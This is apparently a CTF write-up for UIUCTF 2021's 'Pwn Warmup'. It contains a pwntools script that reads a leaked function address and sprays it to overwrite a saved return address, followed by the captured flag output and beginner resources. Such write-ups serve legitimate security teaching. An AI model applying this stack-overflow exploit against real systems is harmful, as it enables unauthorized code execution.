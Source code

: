 # Pwn Warmup(UIUCTF 2021)
```
Points - 50	Number of solves - 214

Hmm this time we arent just going to give you the flag like last year... What can you do?!

nc pwn-warmup.chal.uiuc.tf 1337 

author: Thomas

attachments: pwn-warmup
```

We try to connect to the given server instance using netcat.
```bash
$ nc pwn-warmup.chal.uiuc.tf 1337
== proof-of-work: disabled ==
This is pwn_warmup, go
&give_flag = 0x565612ad
^C
```
Hmm.. this really seems to be a warmup challenge. By the looks of the address, it looks like 32-bit binary. So, I just wrote this simple script to send back this address in hope of overwriting the saved return address on stack:
```python
from pwn import *

target = remote("pwn-warmup.chal.uiuc.tf", 1337)

target.recvuntil("&give_flag = ")

give_flag = int(target.recvline().strip('\n'), 0x10)

target.sendline(p32(give_flag)*20)

target.interactive()
```
```bash
$ python exploit.py 
[+] Opening connection to pwn-warmup.chal.uiuc.tf on port 1337: Done
[*] Switching to interactive mode
uiuctf{k3b0ard_sp@m_do3snT_w0rk_anYm0r3}
uiuctf{k3b0ard_sp@m_do3snT_w0rk_anYm0r3}
uiuctf{k3b0ard_sp@m_do3snT_w0rk_anYm0r3}
uiuctf{k3b0ard_sp@m_do3snT_w0rk_anYm0r3}
uiuctf{k3b0ard_sp@m_do3snT_w0rk_anYm0r3}
uiuctf{k3b0ard_sp@m_do3snT_w0rk_anYm0r3}
uiuctf{k3b0ard_sp@m_do3snT_w0rk_anYm0r3}
uiuctf{k3b0ard_sp@m_do3snT_w0rk_anYm0r3}
uiuctf{k3b0ard_sp@m_do3snT_w0rk_anYm0r3}
uiuctf{k3b0ard_sp@m_do3snT_w0rk_anYm0r3}
uiuctf{k3b0ard_sp@m_do3snT_w0rk_anYm0r3}
uiuctf{k3b0ard_sp@m_do3snT_w0rk_anYm0r3}
uiuctf{k3b0ard_sp@m_do3snT_w0rk_anYm0r3}
uiuctf{k3b0ard_sp@m_do3snT_w0rk_anYm0r3}
uiuctf{k3b0ard_sp@m_do3snT_w0rk_anYm0r3}
[*] Got EOF while reading in interactive
$ 
[*] Interrupted
[*] Closed connection to pwn-warmup.chal.uiuc.tf port 1337
```
And bingo, it really worked right away. _k3b0ard_sp@m_st1ll_w0rks_ haha

For those who are new to this, `p32(addr32)` converts 32-bit value `addr32` to its ascii representation as string.
For example, p32(0x41424344) gives "\x44\x43\x42\x41". Other function names are indicative of what they do.

If you are reading this writeup, these are few resources that might be helpful to you:

##Resources
[Nightmare](https://github.com/guyinatuxedo/nightmare)
[Intro-X86](https://opensecuritytraining.info/IntroX86.html)
[Exploits1](https://opensecuritytraining.info/Exploits1.html)
[pwn.college](https://pwn.college/)